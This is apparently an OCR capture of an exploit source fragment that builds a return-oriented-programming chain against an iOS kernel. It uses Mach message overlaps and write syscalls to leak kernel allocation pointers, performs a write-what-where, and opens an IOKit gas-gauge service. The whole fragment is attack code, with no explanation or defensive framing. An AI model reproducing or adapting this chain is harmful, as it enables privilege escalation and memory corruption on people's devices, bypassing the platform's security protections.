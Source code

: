     
    
#define step(x) \
LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));\
RopAddR0(PUSH, 1024 - 0x58 + x);\
DerefR0(PUSH);\
StoreR0(PUSH, SEG_VAR(scratch[1024 - 0x58 + x]))
    
#define tmptoscratch() \
for (int i = 0; i < 0x58; i += 4) {\
step(i);\
}
    
    ReadWriteOverlap();
    
    RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd2), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 1024, 0, 0, 0, 0, 0);
    
    /* read out pointer to overlappped alloc */
    
    LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 1024 - 0x58 + 0x18);
    DerefR0(PUSH);
    RopAddR0(PUSH, -0x58);
    StoreR0(PUSH, SEG_VAR(kern_alloc_1024));
    LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 1024 - 0x58 + 0x18 + 4);
    DerefR0(PUSH);
    StoreR0(PUSH, SEG_VAR(kern_alloc_1024)+4);
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_alloc_1024)+4,0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_alloc_1024),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
    ReadWriteOverlap();
    tmptoscratch();
    WriteWhatWhere(PUSH, 500, SEG_VAR(scratch[1024 - 0x58 + 0x20]));
    ReadWriteScratchOverlap();
    
    ReadWriteOverlapped512();
    
    ReadWriteOverlap();
    RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd2), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 1024, 0, 0, 0, 0, 0);
    
    RecvMsg(PUSH, overlapped_port, tmp_msg);
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_IOServiceOpen), 0, SEG_VAR(svc), 1, SEG_VAR(mach_task_self), 0, 0, 0, SEG_VAR(gasgauge_), 0, 0, 0, 0, 0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
    ReadWriteOverlap();
    RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd2), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 1024, 0, 0, 0, 0, 0);
    